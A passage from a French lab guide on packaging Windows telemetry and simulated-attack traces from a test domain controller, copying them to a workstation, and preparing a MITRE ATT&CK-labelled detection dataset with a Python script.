rien (aucun bruit de fond). La répartition typique est ~38 × Id 1 (créations de processus) +
quelques Id 13 (écritures registre d'attaque : `Run\LabPersist`, `LabTest\Config`).

### 6.2 Empaqueter

```powershell
Compress-Archive -Path C:\LAB\telemetrie_dc01.jsonl, C:\LAB\trace_attaques_dc01.jsonl -DestinationPath C:\LAB\dataset_ti_windows.zip -Force
Get-Item C:\LAB\dataset_ti_windows.zip | Format-Table FullName,Length -AutoSize
```

### 6.3 Rapatrier `[Poste]`

On récupère le dataset sur notre poste Windows

```powershell
New-Item -ItemType Directory "$env:USERPROFILE\Desktop\dataset\dataset_ti_windows" -Force | Out-Null
scp labo\administrateur@192.168.33.133:C:/LAB/dataset_ti_windows.zip "$env:USERPROFILE\Downloads\"
Expand-Archive ""$env:USERPROFILE\Desktop\dataset\dataset_ti_windows.zip" -DestinationPath "$env:USERPROFILE\Desktop\dataset\dataset_ti_windows" -Force
dir "$env:USERPROFILE\Desktop\dataset\dataset_ti_windows"
```

Le dossier `dataset_ti_windows` contient alors `telemetrie_dc01.jsonl` (la télémétrie propre, sans
étiquette) et `trace_attaques_dc01.jsonl` (les fenêtres t0/t1 + ID/nom/tactique = la vérité-terrain).

---

---

## 7. Préparer le dataset `[Poste]`

Le script `preparer_dataset.py` détecte automatiquement la **zone WIN**, valide les 12 IDs contre
MITRE ATT&CK Enterprise (v19.2), découpe la télémétrie par fenêtre, et écrit un `S###.jsonl` par
technique (sans étiquette) + un `verite_terrain.jsonl` partagé (les réponses, avec les
tactiques v19). Place le script à côté du dossier, puis lance-le.


```
uv run preparer_dataset.py --dossier dataset_ti_windows
```


> Le script n'a besoin d'Internet que la première fois (téléchargement de la base MITRE, mise en
> cache ensuite). Il gère aussi les zones TO (`--dossier dataset_to`) et TI-Linux
> (`--dossier dataset_ti_linux`) sans changement, dans la même vérité-terrain partagée avec une
> numérotation `S###` continue.

Sortie attendue : 12 fichiers `S000.jsonl` … `S011.jsonl` + `verite_terrain.jsonl`, avec
`ids: ok 12 | corrigés 0 | pb 0` et `0 hors fenêtre`.

---


